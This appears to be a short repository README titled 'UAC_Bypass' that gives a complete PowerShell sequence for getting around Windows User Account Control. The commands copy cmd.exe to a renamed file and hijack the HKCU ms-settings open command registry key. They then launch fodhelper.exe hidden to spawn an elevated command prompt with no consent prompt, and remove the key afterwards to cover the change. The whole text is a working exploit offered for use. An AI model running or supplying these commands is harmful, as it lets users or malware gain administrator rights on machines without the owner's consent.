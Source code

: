 # UAC_Bypass

Run these commands in a powershell window to start an escellated privilage command prompt window

copy C:\Windows\system32\cmd.exe c:\users\l_\desktop\123.exe
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value c:\users\l_\desktop\123.exe -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Force
